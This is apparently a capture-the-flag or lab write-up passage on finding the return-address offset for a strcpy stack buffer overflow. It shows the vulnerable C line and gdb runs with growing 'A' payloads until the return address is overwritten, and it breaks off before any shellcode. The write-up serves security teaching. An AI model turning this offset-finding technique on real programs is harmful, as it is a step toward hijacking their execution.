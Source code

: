 
### Find Offset

The offset is the size of the payload that includes the "buffer" all the way up to overwriting the EIP (return address)

we can see the entry point for our overflow in the source code:

```c
  char buffer[154] = "doggo";
  strcpy(buffer, string)
```

our equation for the offset, works something like this:

`payload = buffer + return_address + pad` - where `pad` is some arbitrary number we adjust to see the program "crash" out and show us a return address that starts getting overwritten with `'A's`

e.g.

```sh
Program received signal SIGSEGV, Segmentation fault.
0x0000000000414141 in ?? ()
```

We can see that `buffer` is `154 - doggo` = `149` - (we'll keep writing it as `154-5`. And we know that the return address is `6 bytes`.

So now our equation looks like : `payload = (154-5) + 6 + pad` for which we don't know what `pad` equals, so we run a python line to start determining what `pad` is.

Let's start with `8 bytes` i.e. `(154-5+6+8)` and keep incrementing that until we see our `A`'s (`\x41`) start overwriting the return address:

```sh
(gdb) run $(python -c "print 'A'*(154-5+6+8)")                                                                     
The program being debugged has been started already.                                                               
Start it from the beginning? (y or n) y                                                                            
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+8)")                    
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                  
                                                                                                                   
Program received signal SIGILL, Illegal instruction.                                                               
0x0000000000400500 in __do_global_dtors_aux ()                                                                     
(gdb) run $(python -c "print 'A'*(154-5+6+9)")                                                                     
The program being debugged has been started already.                                                               
Start it from the beginning? (y or n) y                                                                            
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+9)")                    
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400041 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+10)")           
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+10)")
```
